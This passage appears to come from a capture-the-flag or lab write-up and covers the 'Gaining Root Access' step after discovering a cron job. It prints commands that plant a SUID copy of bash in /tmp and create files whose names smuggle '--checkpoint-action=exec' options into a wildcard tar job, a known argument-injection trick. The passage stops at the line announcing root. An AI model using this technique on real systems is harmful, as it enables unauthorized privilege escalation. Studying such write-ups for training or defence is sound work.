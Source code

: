 ![Cron Job Discovery](./Image/56.png)

### Gaining Root Access

Here’s the command we used to gain root privileges:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
chmod +x /home/andre/backup/runme.sh
touch '/home/andre/backup/--checkpoint=1'
touch '/home/andre/backup/--checkpoint-action=exec=sh runme.sh'
```

And finally, we became root:
